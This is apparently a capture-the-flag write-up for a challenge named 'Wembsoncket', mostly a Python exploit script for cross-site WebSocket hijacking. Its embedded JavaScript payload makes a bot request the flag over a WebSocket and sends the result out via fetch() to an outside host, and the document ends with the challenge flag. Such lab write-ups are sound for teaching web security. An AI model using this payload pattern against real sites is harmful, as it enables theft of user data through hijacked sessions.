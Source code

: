 ```yaml
---
ai_date: 2025-05-17 21:39:09
ai_summary: Unprotected WebSocket allows remote code execution and flag retrieval
ai_tags:
  - ws
  - xss
  - rce
created: 2025-05-17T05:00
points: 446
solves: 88
title: Wembsoncket
updated: 2025-05-17T21:52
---
```


Well there is no protection what-so-ever.

We can run whatever JS we want just by serving a page to the bot.

Straight forward exploit, we make the bot connect to the websocket and then get the flag, then send the flag back to us.

```python
from server import webhook
import requests
import asyncio
import json
import websockets

payload = """
<script>
  const ws = new WebSocket('wss://wembsoncket.chal.cyberjousting.com');
  ws.onopen = () => {
    ws.send(JSON.stringify({ message: '/getFlag' }));
  };
  ws.onmessage = ev => {
    const data = JSON.parse(ev.data).message;
    fetch(`https://1337.yun.ng?flag=${encodeURIComponent(data)}`);
  };
</script>
"""

async def main():
    s = requests.Session()
    target = "https://wembsoncket.chal.cyberjousting.com"
    s.get(target)
    token = s.cookies.get("token")
    uri = "wss://wembsoncket.chal.cyberjousting.com"
    print("Token:", token)
    extra_headers = {'Cookie': f'token={token}'}

    stop, wait = webhook(1337, content_type="text/html", payload=payload)
    async with websockets.connect(uri, extra_headers=extra_headers) as websocket:
        message = {"message": "https://1337.yun.ng"}
        await websocket.send(json.dumps(message))
        print("Sent:", message)
        a = wait()
        print(a)
        b = wait()
        print('flag', b)
        response = await websocket.recv()
        print("Received:", response)
        stop()
        print("Server stopped.")

if __name__ == "__main__":
    asyncio.run(main())
```

```flag
byuctf{CSWSH_1s_a_b1g_acr0nym}
```